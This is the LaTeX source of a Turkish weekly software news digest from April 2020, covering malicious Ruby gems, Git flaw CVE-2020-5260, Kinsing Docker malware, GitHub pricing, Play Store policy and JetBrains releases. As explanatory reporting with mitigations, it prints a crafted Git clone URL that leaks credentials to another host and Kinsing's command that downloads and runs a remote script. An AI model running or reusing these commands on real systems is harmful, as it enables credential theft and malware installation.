% Created 2021-01-24 Sun 22:49
% Intended LaTeX compiler: pdflatex
\documentclass[11pt]{article}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{graphicx}
\usepackage{grffile}
\usepackage{longtable}
\usepackage{wrapfig}
\usepackage{rotating}
\usepackage[normalem]{ulem}
\usepackage{amsmath}
\usepackage{textcomp}
\usepackage{amssymb}
\usepackage{capt-of}
\usepackage{hyperref}
\usepackage{minted}
\hypersetup{colorlinks=true, linkcolor=black, filecolor=red, urlcolor=blue}
\usepackage[turkish]{babel}
\author{Eren Hatırnaz}
\date{19 Nisan 2020}
\title{Yazılım Gündemi - 2020/15\\\medskip
\large 13-19 Nisan 2020}
\hypersetup{
 pdfauthor={Eren Hatırnaz},
 pdftitle={Yazılım Gündemi - 2020/15},
 pdfkeywords={},
 pdfsubject={},
 pdfcreator={Emacs 27.1 (Org mode 9.3)},
 pdflang={Turkish}}
\begin{document}

\maketitle
\tableofcontents \clearpage\shorthandoff{=}

\begin{center}

\includegraphics[width=.9\linewidth]{gorseller/yazilim-gundemi-banner.png}
\end{center}

\begin{center}
\href{../14/yazilim-gundemi-2020-14.pdf}{< Önceki Gündem} | \textbf{13-19 Nisan 2020} | \href{../16/yazilim-gundemi-2020-16.pdf}{Sonraki Gündem >}

\href{https://teknoseyir.com/blog/yazilim-gundemi-2020-15}{TeknoSeyir'de Oku}
\end{center}

\section{725 adet zararlı Ruby kütüphanesi \href{https://www.zdnet.com/article/clipboard-hijacking-malware-found-in-725-ruby-libraries/}{RubyGems üzerinden kaldırıldı}}
\label{sec:org923e919}
Büyük ve orta ölçekli uygulamaları üçüncü parti kütüphane kullanmadan
geliştirmenin pek mümkün olmadığı günümüz yazılım ekosisteminde, kötü amaçlı
kişiler artık sadece son kullanıcıları değil, biz geliştiricileri de hedef
alıyorlar. ReversingLabs isimli güvenlik firmasının bu hafta yayınladığı \href{https://blog.reversinglabs.com/blog/mining-for-malicious-ruby-gems}{bir
blog yazısı} 2020 Şubat ayında yaşanmış ve çözümlenmiş bir olaya ışık tutuyor.

ReversingLabs firması Şubat ayında 725 adet yeni RubyGems (Ruby programlama
dilinin üçüncü parti kütüphaneleri kayıt etmek için kullandığı sistem) kaydı
tespit etmişler ve incelediklerinde de bu kütüphanelerin kötü amaçlı kod
satırları içerdiklerini keşfetmişler. "\emph{JimCarrey}" ve "\emph{PeterGibbons}"
şeklinde takma isimlerle RubyGems üzerinden paylaşılmış, isim oyunu içeren bu
kütüphaneler güvenlik firmasının tespit etmesi ve RubyGems'e bildirmesi
üzerine sistemden silindiler fakat silinene kadar geçen süre boyunca binlerce
kez indirildikleri de gözden kaçmıyor. RubyGems üzerinden silinen bu
kütüphanelerin tam listesi için \href{https://blog.reversinglabs.com/hubfs/Blog/ruby\_malicious\_gems.txt}{buraya tıklayabilirsiniz}.

Kötü amaçlı kişiler yine isim oyunları yaparak aradan sıvışmaya çalışmışlar.
Mesela "atlas\_client" isimli bir kütüphanenin sahtesini "atlas-client" ismiyle
yayınlamışlar. Peki ne yapıyor bu kötü amaçlı kütüphaneler?

\begin{figure}[htbp]
\centering

\includegraphics[width=.9\linewidth]{gorseller/ruby-zararli.png}
\caption{Zararlı yazılımın sisteme nasıl eklendiğini gösteren akış şeması. Kaynak: \href{https://blog.reversinglabs.com/blog/mining-for-malicious-ruby-gems}{ReversingLabs}}
\end{figure}

Bu kütüphanelerin yaptığı şey Windows sistemlere bilgisayarın açılmasıyla
birlikte çalışacak bir Clipboard Hijack betiği kuruyor. Yani kes, kopyala,
yapıştır gibi işlemlerin yapılabilmesini sağlayan "pano" sistemini manipüle
ediyor. Bilgisayarınızın arkaplanında çalışan bu Visual Basic betiği sonsuz
döngüye girmiş şekilde sürekli panoya kopyaladığınız metinleri kontrol ediyor,
eğer bunun bir BitCoin cüzdanı adresi olduğunu anlarsa, o metini başka bir
BitCoin cüzdanı adresi ile değiştiriyor. Yani kısaca sizin başkasına
göndereceğiniz parayı kendisine aktarmak istiyor.

Yine güvenlik firmasının açıklamasına göre saldırganın ilgili BitCoin
cüzdanına hiçbir para transferi gerçekleşmemiş. Zaten düşük bir olasılıktı.
Yazdığın sahte kütüphaneyi Windows kullanan bir yazılım geliştirici indirecek,
o yazılım geliştirici BitCoin'i aktif olarak kullanıyor olacak ve bir para
tranferi yapacağı zaman adamın panosunu manipüle edip, parayı kendine
çekeceksin. Ohoo\ldots{} Ölme eşeğim ölme. İlginç bir kafa gerçekten. Saldırgan
amacına ulaşamadan gönderdiği sahte kütüphaneler silinmiş ama eğer
indirilmişse sizin bilgisayarınızdan silinmemiştir. Ruby dili üzerinde aktif
geliştirme yapıyor ve Windows kullanıyorsanız sisteminizle birlikte başlayan
uygulamaları bir kontrol etmenizde fayda var.
\section{Zararlı URL ile şifre çalmaya yarayan \href{https://github.com/git/git/security/advisories/GHSA-qm7j-c969-7j4q}{Git açığı kapatılı}}
\label{sec:orgc4981c1}
Google'ın Project Zero isimli güvenlik takımı tarafından ortaya çıkarılan ve
\href{https://bugs.chromium.org/p/project-zero/issues/detail?id=2021}{raporlanan güvenlik açığı} bu hafta içerisinde yayınlanan Git sürümleriyle
birlikte kapatıldı. CVE numarası: \href{https://nvd.nist.gov/vuln/detail/CVE-2020-5260}{CVE-2020-5260}

Git bazı kimlik doğrulama işlemleri için işletim sistemi tarafından sağlanmış
harici yardımcı araçları kullanıyor. Fakat "git clone" gibi komutlardan
girilen zararlı URL'ler, bu harici kimlik doğrulama araçlarında hata yol açıp,
sistemde kayıtlı kimlik bilgilerini (kullanıcı adı, şifre, ssh anahtarı vb.)
başka bir sunucuya yönlendirebiliyor. Örnek vermek gerekirse:

\begin{minted}[breaklines=true,breakanywhere=true]{shell}
git clone 'https://example.com?%0ahost=github.com'
\end{minted}

şeklinde çalıştırılan bir komut \texttt{github.com} için depolanmış kimlik
bilgilerini \texttt{example.com} sitesine yönlendiriyor. Elbette benim gibi siz de
ilk bakışta "böyle bariz şüpheli bir komutu kim, niye çalıştırsın?"
diyebilirsiniz fakat bu bağlantılar her zaman böyle açık şekilde olmuyor.
Örneğin, bir depo içerisine başka bir depoyu eklemeye yarayan Git'in Submodule
sistemi böyle bir zaafiyete kurban gidebilir. Siz depoyu normal bir şekilde
sunucudan bilgisayarına çekebilirsiniz fakat Git, Submodule olarak eklenen
diğer depoları çekerken böyle bir bağlantı ile karşılaşırsa haberiniz
olmayabilir.

Neyse ki bu güvenlik sorunu halka açık olarak paylaşılmadan önce kapatılmış.
Git versiyonlarınızı güncelleyerek olası bir zararın önüne geçmiş olursunuz.
Eğer Git versiyonunuzu yükseltebilecek durumda değilseniz aşağıdaki şeyleri
yapmanızda fayda var:

\begin{itemize}
\item Bu komutları çalıştırarak Git'in harici kimlik doğrulama yardımcılarını
kullanmasını önleyebilirsiniz:
\begin{minted}[breaklines=true,breakanywhere=true]{shell}
$ git config --unset credential.helper
$ git config --global --unset credential.helper
$ git config --system --unset credential.helper
\end{minted}
\item İndirdiğiniz depolar içerisindeki \texttt{.gitmodules} dosyasını inceleyebilir ve
şüpheli bir durum görmezseniz işlemlerinize devam edebilirsiniz.
\end{itemize}

Güvenlik açığı hakkında daha detaylı bilgi edinmek isterseniz konu başlığına
eklediğim bağlantıya ya da Google'ın Project Zero takımının \href{https://bugs.chromium.org/p/project-zero/issues/detail?id=2021}{şu yazısına} göz
atabilirsiniz.
\section{Konteynerleri tehdit eden \href{https://blog.aquasec.com/threat-alert-kinsing-malware-container-vulnerability}{yeni bir zararlı yazılım}: Kinsing Malware}
\label{sec:org0a3da1c}
Linux çekirdeğinin içerisinde olan fakat Docker ile birlikte popülerliği
artmış olan konteyner yapısı artık günümüzde birçok şirket ve kurum tarafından
kullanılıyor. Yeni teknolojiler biz geliştiricilerin olduğu gibi kötü amaçlı
kişilerin de ilgisini çekiyor. Aqua isimli konteyner güvenliği üzerine çalışan
firmanın geçtiğimiz hafta blogunda yayınladığı yazı ile konteyner içerisinde
kripta para madenciliği yapan yeni bir malware ortaya çıktı. İsmine "Kinsing"
demişler.

Bu malware yazılımının sisteminize sızabilmesi için bir kriter var. O da
yanlış ayarlanmış ve açık bırakılmış Docker Daemon API'sinin portu. Kötü
amaçlı kişiler bu açık portu otomatik olarak bulan ve kendi amacı için
kullanan exploit geliştirmişler. Bu exploit'in yaptığı ilk iş yeni bir Ubuntu
konteyner'i oluşturmak ve içerisinde aşağıdaki komutu çalıştırmak:
\begin{minted}[breaklines=true,breakanywhere=true,frame=lines, linenos, label=Bash]{bash}
/bin/bash -c apt-get update && apt-get install -y wget cron;service cron start; wget -q -O - 142.44.191.122/d.sh | sh;tail -f /dev/null
\end{minted}
GNU/Linux sistemlere aşina olmayanlar için açıklamak gerekirse bu komutun
yaptığı iş:
\begin{enumerate}
\item \texttt{apt-get update}: Tüm paket depolarını güncelliyor.
\item \texttt{apt-get install -y wget cron}: \textbf{wget} ve \textbf{cron} araçlarını kuruyor.
\item \texttt{wget -q -O - 142.44.191.122/d.sh | sh}: \textbf{wget}'i kullanarak asıl zararlı
yazılımı indiriyor ve çalıştırıyor.
\item \texttt{tail -f /dev/null}: /dev/null dosyasını sürekli yazdırarak konteyner'i
ayakta tutmaya çalışıyor.
\end{enumerate}

Asıl zararlı yazılım ise bazı güvenlik duvarlarını devre dışı bırakarak
kendini genişletmeye ve sistem kaynaklarınızı kullanarak kripto para
madenciliği yapıyor.

\begin{figure}[htbp]
\centering

\includegraphics[width=.9\linewidth]{gorseller/docker-kinsing.jpg}
\caption{Zararlı yazılımın tüm süreçlerini gösteren diyagram. Kaynak: \href{https://blog.aquasec.com/threat-alert-kinsing-malware-container-vulnerability}{Aqua}}
\end{figure}

Eğer kişisel olarak ya da firmanızda Docker kullanıyorsanız gerekli
kontrolleri yapmayı ihmal etmeyin. Zararlı yazılım hakkında daha detaylı bilgi
ve önlemler için konu başlığına eklediğim bağlantıya tıklayabilirsiniz.
\section{Bakan Varank: "\href{https://www.sanayi.gov.tr/medya/haber-detayi/gLAYI4bI8x59}{Yazılım Okulları Açacağız}"}
\label{sec:orgf6d3f7e}
Geçtiğimiz haftaki yazılım gündemi yazısını (bkz: \href{../14/yazilim-gundemi-2020-14.pdf}{Yazılım Gündemi - 2020/14})
son anda güncelleyerek "\href{https://www.acikseminer.com/}{Açık Seminer}" etkinliğinin başlayacağını duyurmuştum.
Etkinlik önümüzdeki haftalarda da devam edecek. Bu etkinliklerin ilk gününde
Sanayi ve Teknoloji Bakanı Mustafa Varank da katılım gösterdi ve bazı
açıklamalarda bulundu. Özetleyecek olursak:

\begin{itemize}
\item "\href{https://www.turkiyeacikkaynakplatformu.com/}{Türkiye Açık Kaynak Platformu}nda 60'ı aşkın şirket, 50'den fazla
üniversite, sektör temsilcisi STK ve topluluk üyesi binlerce yazılımcı
bulunuyor. Burada sadece yazılım geliştirenler değil, yeni teknolojilerde
yazılım ihtiyacı olan şirketler de bizim paydaşımız. Platform aracılığıyla
ihtiyaç sahibiyle yazılım geliştiricileri bir araya getiriyoruz".
\item Platformun gelecek 2 yıllık çalışma programı hazır.
\item Bilişim Vadisi ve TÜBİTAK-TÜSSİDE ile birlikte yürütülen bu programa,
İstanbul ve Doğu Marmara kalkınma ajanları 30 milyon liralık katkı
sunacakmış.
\item 2023 Sanayi ve Teknoloji Stratejisi kapsamında 500.000 yazılımcı ve
yazılımda küresel ürünler geliştiren bir ülke olma hedefi var. Şu an
ülkemizde 150.000'in üzerinde yazılım geliştirici varmış.
\item İstanbul'da ve Bilişim Vadisi'nde Yazılım Okulları açılacakmış.
\item "Seminer programının ardından, farklı yaş gruplarını ve yetkinlikleri
hedefleyen eğitim programlarımız başlayacak. Eğitimleri başarıyla
tamamlayan katılımcılara, dijital rozet vereceğiz"
\end{itemize}

Diğer birçok ülkenin de açık kaynak ve yazılımla ilgili doğrudan kurumlar
kurduğu günümüz ekosisteminde bence doğru bir hareket. Ülke olarak bu akımı
yakalayabilmiş olmak umut vaat ediyor. Umarım ilerleyen süreçlerde planlar
hakkında daha detayları açıklamalar da gelir. Her ne kadar "Açık Kaynak"tan
ziyade "Özgür Yazılım" kavramını daha çok destekliyor olsam da devletlerin
"Açık Kaynak" tarafına yönelmesini de anlayabiliyorum.

Önümüzdeki haftalarda da devam edecek "Açık Seminer" etkinliklerini takip
etmek için bu sayfayı ziyaret edebilirsiniz: \url{https://www.acikseminer.com/}
\section{GitHub takımlar için de \href{https://github.blog/2020-04-14-github-is-now-free-for-teams/}{ücretsiz oldu}}
\label{sec:org365a0a5}
Geçtiğimiz yazılım gündemi yazılarının birinde GitHub'da kullanıcı olarak özel
depo (private repository) açmanın ücretsiz olduğunu konuşmuştuk diye
hatırlıyorum (hangi yazı olduğunu bulamadım :) ). Bu hafta ise GitHub
yayınladığı blog yazısı ile birlikte artık takımlar içi de GitHub Free
paketinin bulunduğunu açıkladı. Ayrıca GitHub Teams paketinin kullanıcı başına
aylık \$9 olan ücretini de \$4 olarak güncelledi.

Ücretsiz paketle birlikte artık özel depoların temel tüm özelliklerine
ücretsiz olarak erişebilecek firmalar. Ayrıca 500MB GitHub Packages ve 2.000
dakika GitHub Actions hizmetleri de ücretsiz pakete dahil. Ücretli olarak
kullanmaya devam edecek ve yıllık olarak GitHub Teams satın almış firmalar
ve organizasyonlar için de kalan ayların ücretleri de iade edilecek.

\begin{figure}[htbp]
\centering

\includegraphics[height=7cm]{gorseller/github-free-limits.png}
\caption{Ücretli GitHub Teams paketinden ücretsiz pakete geçerken kaybedilen özellikler}
\end{figure}

Yukarıdaki görselde de görebileceğiniz gibi birçok faydalı özellik ücretsiz
sürümde yok. Bu özelliklere ihtiyaç duyan firmalar ve kurumların geçiş
yapacaklarını sanmıyorum ama "bunlar olmasa da olur" diyenler için iyi bir
tasarruf.
\section{Google Play Store Policy \href{https://www.androidpolice.com/2020/04/16/play-store-app-policy-changes-misleading-subscriptions-android-11-location/}{güncellendi}: Arka planda konum servisi kullanan uygulamalar özel izin almak zorunda}
\label{sec:orgc541c03}
Google'ın Android için uygulama ve içerik mağazası olan Play Store'da uygulama
yayınlamak için uyulması gereken Policy dokümanı güncellendi. Artık
kullanıcıya bir süreliğine ücretsiz sunulan daha sonra ücretli hale gelen
uygulamalar detay vermek zorunda ve ondan da önemlisi artık uygulamanız
arka planda konum servisini kullanmak istiyorsa Google'dan özel olarak izinli
olması gerekiyor.

\begin{figure}[htbp]
\centering

\includegraphics[width=.9\linewidth]{gorseller/play-store-policy.png}
\caption{Artık uygulamanız kullanıcıya soldaki gibi ücretsiz süreç hakkında detaylı bilgiler vermek zorunda, sağdaki kullanıma izin verilmiyor.}
\end{figure}

Eğer kullanıcılar yine de dikkatsiz davranıp bu açıklamaları görmezden gelirse
diye Google önlemini almış. Ücretsiz kullanım süreci bitmeden önce kullanıcıya
e-posta atarak durum hakkında bilgi vermek zorundasınız. Ayrıca aktif
aboneliği olan fakat uygulamayı silmiş kullanıcılar da bildirimlerle
uyarılacakmış, "uygulamayı silmek abonelikten çıkmak anlamına gelmiyor"
şeklinde. Bence gayet yerinde uygulamalar.

Diğer bir konumuz ise arka planda konum bilgilerini kullanan uygulamaları
ilgilendiriyor. Artık uygulamanız arka planda konum bilgilerine de erişmek
istiyorsa özel olarak Google'a başvurmanız ve beyaz listeye (whitelist)
girebilmek için Google'ı neden arka planda konum bilgisine ihtiyaç duyduğunuz
konusunda ikna etmeniz gerekiyor. Reklam gösterme ve analiz için kullanımlar
kabul edilmeyecekmiş. Yani Google diyor ki: "Benim dışımda kimse
kullanıcıların konum bilgileriyle reklam gösteremez ve analiz yapamaz". Pek
şaşırdığımı söyleyemem açıkcası.

Arka planda konum bilgisini alıp bunu kötüye kullanan uygulamaların olduğu bir
gerçek elbette fakat bu sorunun önüne geçmek için uydurulan çözüm bana biraz
sakıncalı geldi. Eğer Google'ın kendi çözümü olan bir alanda hizmet veriyorsak
(yani bir nevi Google'a rakipsek), Google bizim uygulamamızı beyaz listeye
eklemeyebilir. Nitekim reklam gösterme ve analiz için en başından kısıtlanmış
zaten. Bu sürecin şeffaflığı nasıl sağlanacak? sorusunun sorulması önemli.

Bu konuda siz ne düşünüyorsunuz. Yorumlar bölümünde konuşalım.

Arka planda konum bilgisi kullanımı için daha detaylı bilgi için Google'ın
hazırladığı \href{https://support.google.com/googleplay/android-developer/answer/9799150}{bu sayfayı} ziyaret edebilirsiniz.
\section{JetBrains birçok IDE ve aracı için 2020.1 sürümünü yayınladı}
\label{sec:org50996f0}
JetBrains firmasının Nisan ayı itibariyle yayınladığı güncellemeler bu
şekilde:

\begin{center}
\begin{tabular}{ll}
\hline
IDE'ler & Araçlar\\
\hline
* \href{https://blog.jetbrains.com/phpstorm/2020/04/phpstorm-2020-1-release/}{PhpStorm 2020.1} & * \href{https://www.jetbrains.com/resharper/whatsnew/}{ReSharper 2020.1}\\
* \href{https://www.jetbrains.com/clion/whatsnew/}{CLion 2020.1} & * \href{https://blog.jetbrains.com/blog/2020/04/16/edutools-v-3-6/}{EduTools 3.5}\\
* \href{https://www.jetbrains.com/datagrip/whatsnew/}{DataGrid 2020.1} & * \href{https://www.jetbrains.com/resharper-cpp/whatsnew/?mkt\_tok=eyJpIjoiTUdRME9EQXhNMlppTWpKayIsInQiOiJiNGZFR2toVHl1ZDdWS3pMVUFcL1lOUkZiUUxtR2U3Wk9yRmVrWlp1SlVMS3VLd1FHUlpaVVdZV1k2RXBqSGF4NXVhQ1RhOERNVTA5UVFhb1U2SCsrZHgwMGdIc29KdVwvOUZVMzRPYTNTMUoxdWFOT3Q2eUN0M2Y5RmJFOHdHTXJTIn0\%253D}{ReSharper C++ 2020.1}\\
* \href{https://www.jetbrains.com/idea/whatsnew/}{IntelliJ IDEA 2020.1} & \\
* \href{https://www.jetbrains.com/go/whatsnew/}{GoLand 2020.1} & \\
* \href{https://www.jetbrains.com/pycharm/whatsnew/}{PyCharm 2020.1} & \\
* \href{https://www.jetbrains.com/ruby/whatsnew/}{RubyMine 2020.1} & \\
* \href{https://www.jetbrains.com/webstorm/whatsnew/}{WebStorm 2020.1} & \\
* \href{https://www.jetbrains.com/rider/whatsnew/}{Rider 2020.1} & \\
\hline
\end{tabular}
\end{center}
\section{"\href{https://www.acikseminer.com/}{Açık Seminer}" etkinlikleri devam ediyor}
\label{sec:orgf34b5ae}
\begin{center}
